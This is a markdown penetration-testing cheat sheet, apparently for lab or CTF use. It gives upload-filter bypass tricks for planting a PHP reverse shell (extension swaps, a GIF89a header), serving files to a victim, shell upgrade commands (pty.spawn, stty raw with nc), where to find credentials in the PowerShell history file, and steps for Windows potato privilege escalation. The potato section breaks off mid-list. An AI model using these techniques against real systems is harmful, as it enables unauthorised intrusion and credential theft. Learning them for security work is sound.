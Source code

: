 # File Upload Bypass
If you need to upload a reverse shell, like from [PenTest Monkey](https://github.com/pentestmonkey/php-reverse-shell), then you may experience the dashboard preventing you from uploading.
This can be easily fixed by doing either of the following.

**Attempt 1**. Try renaming the extension and then uploading it. If you can upload it, try renaming it from the dashboard.

**Attempt 2**. Try changing the extension from php to php3 or phtml.

**Attempt 3**. Try opening the php reverse shell and adding `GIF89a` to the first line of the file. Then upload. This tricks the server into thinking the file is a GIF.

# File Transfer
There are many ways to transfer files between victim and attacker. The one thing I discovered was that it is easier to have FTP, SMB, and python simple server to handle this.
I strongly recommend searching up how to set up FTP and SMB services, and link it to your kali/parrot desktop for easy transfer.

### Python Simple Server
``` python3 -m http.server -b 192.x.x.x port ``` or
``` python -m SimpleHTTPServer -b 192.x.x.x port ```

# Upgrading Shell
To give you more of a familiar terminal interface, if python is installed, you can run this command. You can replace 'python' with any version of python which is installed on the victim system.
```
python -c 'import pty;pty.spawn("/bin/bash")'
```

Once you have given yourself a little graphical update, you can then upgrade to an interactive shell.
```
┌──(kali㉿kali)-[~/Desktop]
└─$ ^Z
zsh: suspended  nc -lvnp 1234
                                                                                                                  
┌──(kali㉿kali)-[~/Desktop]
└─$ stty raw -echo;fg                                                                                   
[1]  + continued  nc -lvnp 1234
                               stty sane
```

# Windows Exploitation
### Recommended Scripts
I strongly recommended using the existing scripts for Windows, since it is not easy to develop your own if you aren't familiar with the operating system.
These are my favourites to use:
1. SharpUp.exe (You can find static binaries on github)
2. PowerUp.ps1
3. WinPEAS.exe

### History File
Sometimes credentials maybe stored in the CMD history file on windows.
Location is typically `C:\Users\USERNAME\Appdata\Roaming\Microsoft\Windows\Powershell\PSReadline\...`

### Potato Exploit
I have gathered a basic template from researching and trying out different potato exploits on Windows systems and here is what I have found.
Step 1: If you have the permission 'SeImpersonatePrivilege' then a potato exploit may be possible.
Step 2: Determine which OS version you are currently running. This can be achieved through the use of 'systeminfo' command.
Step 3: Transfer the corresponding potato exploit.
```